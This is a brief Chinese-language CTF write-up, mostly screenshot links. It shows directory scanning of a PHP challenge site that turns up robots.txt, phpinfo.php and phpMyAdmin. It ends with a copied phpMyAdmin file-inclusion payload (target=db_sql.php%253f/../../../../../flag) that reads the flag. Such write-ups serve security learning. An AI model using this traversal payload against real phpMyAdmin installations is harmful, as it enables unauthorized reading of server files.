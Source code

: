 ![](<./img/Pasted image 20221125210719.png>)

---
首页长这样

![](<./img/Pasted image 20221125210651.png>)

`dirsearch`扫到了`robots.txt`

![](<./img/Pasted image 20221125220315.png>)

![](<./img/Pasted image 20221125211153.png>)

访问`/phpinfo.php`

![](<./img/Pasted image 20221125211604.png>)

宁就是`webmaster`嘛www

既然他说和数据库有关，那就记一下叭（虽然不知道有什么用）

![](<./img/Pasted image 20221125211941.png>)

---
还有一个`phpmyadmin`扫到了，不知道是啥

![](<./img/Pasted image 20221125220518.png>)

emmm没有思路，看看版本号蛮可疑的

![](<./img/Pasted image 20221125220708.png>)

![](<./img/Pasted image 20221125221044.png>)

![](<./img/Pasted image 20221125221327.png>)

看不懂，但能抄.jpg（脚本小子实锤）

```php
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../flag
```
![](<./img/Pasted image 20221125222248.png>)

#Web #PHP #目录扫描 #phpmyadmin #Vulnerabilities #信息检索